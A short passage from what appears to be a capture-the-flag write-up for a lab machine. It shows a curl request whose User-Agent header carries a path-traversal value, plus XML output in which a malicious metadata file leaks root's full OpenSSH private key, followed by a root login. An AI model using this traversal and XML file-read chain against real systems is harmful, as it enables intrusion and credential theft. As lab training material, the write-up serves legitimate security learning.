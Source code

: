 `curl http://10.129.69.48:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/cat.jpg"`

The image will then be loaded, the artist field will then point towards our malicious xml file, which will then load in the ssh key of root:
```xml
woodenk@redpanda:~$ cat tmp_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/cat.jpg</uri>
    <ssh>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</ssh>
    <views>6</views>
  </image>
  <totalviews>6</totalviews>
</credits>
```

We can now login as root via the ssh key. Rooted!